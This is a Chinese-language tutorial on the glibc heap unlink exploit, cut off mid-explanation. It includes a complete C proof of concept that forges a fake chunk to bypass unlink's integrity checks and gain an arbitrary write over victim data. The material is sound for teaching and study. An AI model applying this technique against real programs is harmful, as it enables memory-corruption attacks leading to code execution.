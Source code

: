 # Unlink Exploit

在unlinkMACRO 中添加了两个安全检查（”corrupted size vs. prev_size” and “corrupted double-linked list”），这在一定程度上减少了攻击的影响。
这种攻击利用`unlink`MACRO中完成的指针操作，同时从bin中移除一个chunk。

```c++
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
  printf("%p\n", &chunk1);
  printf("%p\n", chunk1);
  printf("%p\n", chunk2);
  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header
  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("%p\n", chunk1);
  printf("%x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}
```

通过malloc得到两个大小为0x80的块确保他们在 small bin 范围内，然后假设攻击者以某种方式对chunk1内容进行无限制控制（比如strcpy用户输入）。两个块都将并排放在内存中，代码中 chunk_structure 使用自定义结构仅处于清晰的目的，在攻击情形中，攻击者只需要发送填写的字节。
在“data”部分创建了一个新的假chunk即 chunk1。在fd和bk指针被调整为通过“corrupted double-linked list”安全检查。攻击者的内容被溢出到chunk2的报头中设置适当prev_size和prev_in_use位。这确保了无论何时chunk2释放，fake_chunk将被检测为“释放”并且将是`unlinked`，此时各种内存区域状态如下：

![Alt](img/unlink_before_free.png)

一旦chunk2被释放，它就被当作一个small bin处理。然后会检查前一个和下一个chunk（通过内存）是否“空闲”。(前一个freak chunk为空闲） 如果任何chunk被检测为“空闲”，则unlinked用于合并连续的空闲块。该unlink宏执行的是修改指针以下两条指令：
